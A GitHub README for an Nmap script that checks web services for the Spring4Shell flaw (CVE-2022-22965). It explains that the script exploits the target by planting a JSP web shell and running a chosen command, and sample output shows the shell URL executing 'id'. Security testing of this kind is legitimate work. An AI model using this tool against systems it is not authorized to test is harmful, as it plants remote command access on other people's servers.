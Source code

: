 # Nmap-spring4shell
Log4shell-nmap is an NSE script for detecting Spring4Shell RCE vulnerabilities (CVE-2022-22965) in HTTP services. The script injects the correct payload into the application and then executes the following command on the specified endpoint.

## Vulnerability
See [here](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/).

## Usage
```
┌──(kali㉿kali)-[~/nmap-spring4shell]
└─$ nmap 127.0.0.1 --script=./spring4shell.nse
(...)
PORT     STATE SERVICE    REASON  VERSION
8080/tcp open  http-proxy syn-ack
| spring4shell: 
|   VULNERABLE:
|   Spring4Shell - Spring Framework RCE via Data Binding on JDK 9+
|     State: VULNERABLE
|     IDs:  CVE:CVE-2022-22965
|     Check results:
|       127.0.0.1:8080/shell.jsp?pwd=j&cmd=id
|     Extra information:
|       TESTED URL: 127.0.0.1:8080
|       COMMAND: id
|       ASSERTION: uid
|     References:
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965
```

## Arguments
We can use several variables in the script. These are as follows:
- `endpoint` - relative url. On `https://bugspace.pl/search/videos` it will be `/search/videos`,
- `command` - command to be run on the server.  The default command is `id`,
- `assertion` - the checked string inside the server response. The default assertion is `uid`,
- `filename` - file name on the server. For more information see [here](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/). The default name is `shell`.

## Sources to check
https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/

## License
Same as Nmap. See https://nmap.org/book/man-legal.html
